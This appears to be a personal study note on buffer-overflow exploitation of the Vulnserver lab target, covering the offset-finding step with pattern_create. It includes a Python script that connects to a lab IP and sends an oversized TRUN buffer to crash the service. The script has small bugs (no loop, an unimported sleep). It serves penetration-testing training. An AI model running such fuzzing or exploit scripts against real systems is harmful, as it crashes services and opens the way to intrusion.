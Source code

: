 
# Finding the Offset w/ Pattern Create
Now that we know our offset from [fuzzing](PEH/buffer-overflows/fuzzing.md) the program, we can use [pattern create](/cybersecurity/tools/exploitation/pattern-create.md) to help fine-tune our exploit script and payload.

**![See Pattern Create](/cybersecurity/tools/exploitation/pattern-create.md)
** (relative)
[Pattern Create](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/pattern-create.md) (GitHub repo)**
## Finding the **EXACT** Address
Now that we've created a buffer string with `pattern_create` we can copy paste our fuzzing script into a new script (which will become our exploit as we fine tune it).
```python
import sys, socket

# Create the buffer of 'A' characters
buffer = "A" * 100

try:
	# Build the payload by appending the TRUN command to the buffer
	payload = "TRUN /.:/" + buffer

	# Create, open, and connect to the socket (connecting to target)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))

	# Send the payload to target
	print ("[+] Sending the payload...\n" + str(len(buffer)))
	s.send(payload)
	
	# Close connection and what 1 second
	s.close()
	sleep(1)

	# (if we haven't crashed) increase buffer length by 100 bytes & try again
	buffer = buffer + "A"*100
except:
	# When the target crashes, print the number of bytes it took
	print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
	sys.exit()
```

> [!Resources]
> -  [Vulnserver](https://thegreycorner.com/vulnserver.html) 
> - [Immunity Debugger](https://www.immunityinc.com/products/debugger/) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
> - My [writeup on basic buffer overflow](https://trshpuppy.github.io/portfolio/writeups/basic-buffer-overflow)
